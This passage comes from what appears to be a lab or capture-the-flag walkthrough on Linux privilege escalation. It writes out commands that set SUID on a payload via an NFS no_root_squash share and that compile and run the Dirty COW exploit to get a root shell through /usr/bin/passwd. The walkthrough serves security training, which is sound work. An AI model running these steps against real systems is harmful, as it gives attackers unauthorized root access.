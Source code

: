 Now set SUID permissions on the payload file:

```
chmod +xs /tmp/nfs/shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172829165-568c0701-f950-4a72-a3ee-ca05430afb34.png)

Running the payload from the target machine will escalate the privileges to root:

```
/tmp/shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172829346-0bee6d14-7cd5-4925-84ca-03a6cfc026e3.png)

<br/>

#### 19.1: What is the name of the option that disables root squashing?

```
no_root_squash
```

<br/>
<br/>

### 20: Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort. In this task we will be running the `Linux Exploit Suggester 2` tool to identify potential kernel exploits on the target system:

```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

The `Dirty COW` exploit comes up on the list. An exploit for this can be found under `/home/user/tools/kernel-exploits/dirtycow/c0w.c`. The xploit essentially replaces the SUID file `/usr/bin/passwd` with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak). Let's proceed to compile the code and run it.

```gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

![image](https://user-images.githubusercontent.com/14150485/172830885-11c951bc-b68e-4300-a9d2-392227275ce6.png)

Once the exploit finishes running, executing `/usr/bin/passwd` will spawn a root shell:

```
/usr/bin/passwd
```

![image](https://user-images.githubusercontent.com/14150485/172830971-f30be9c9-3968-42cb-920f-0d0db0720d4b.png)

<br/>

